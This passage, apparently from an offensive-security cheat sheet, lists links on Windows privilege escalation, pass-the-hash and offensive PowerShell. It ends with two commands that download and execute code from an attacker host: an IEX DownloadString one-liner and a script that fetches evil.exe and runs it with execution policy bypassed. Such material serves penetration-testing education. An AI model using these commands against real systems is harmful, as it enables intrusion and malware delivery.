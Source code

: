 [Privilege Escalation on Windows 7,8,10, Server 2008, Server 2012 … and a new network attack](https://foxglovesecurity.com/2016/01/16/hot-potato/)

[Bypassing Firewalls with Port 23](http://hkashfi.blogspot.com/2008/04/bypassing-firewalls-with-port_23.html)

[Pass the hash is dead long live LocalAccountTokenFilterPolicy](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)

[NetView](https://github.com/mubix/netview)

[Getting Windows to play with itself: A PenTester's guide to Windows API abuse](http://www.irongeek.com/i.php?page=videos/derbycon4/t122-getting-windows-to-play-with-itself-a-pen-testers-guide-to-windows-api-abuse-brady-bloxham)

##### AZURE

[Compromise as a Service: our pleAZURE](https://www.youtube.com/watch?v=gxWqwX7LfbU)

##### Powershell Foo

> **Resources**

[Attacking ADFS Endpoints with PowerShell](http://www.irongeek.com/i.php?page=videos/derbycon6/118-attacking-adfs-endpoints-with-powershell-karl-fosaaen)

[PowerShell AD Recon](https://github.com/PyroTek3/PowerShell-AD-Recon)

[PowerShell Secrets and Tactics](https://www.youtube.com/watch?v=mPPv6_adTyg)

[An Intro to PowerShell and how to use it for Evil](https://www.youtube.com/watch?v=YSUJNInriiY)

[Offensive Active Directory with PowerShell](https://www.youtube.com/watch?v=cXWtu-qalSs)

[Low-Level Windows API Access From PowerShell - FuzzySecurity](http://www.fuzzysecurity.com/tutorials/24.html)

[PowerShell Unicorn](https://github.com/trustedsec/unicorn)

[Sherlock for Powershell](https://github.com/rasta-mouse/Sherlock)

> ###### Upgrade Shell

```
C:\> powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.10.1/file.txt')"
```

> ###### wget

```
echo $storageDir = $pwd > wget.ps1   
echo $webclient = New-Object System.Net.WebClient >> wget.ps1   
echo $url = "http://$ATTACKER/evil.exe" >> wget.ps1
echo $file = "new-exploit.exe" >> wget.ps1    
echo $webclient.DownloadFile($url,$file) >> wget.ps1

C:\> powershell.exe -ExecutionPolicy Bypass ‐NoLogo  ‐NonInteractive  ‐NoProfile ‐File wget.ps1
```

> ###### Execute ps1
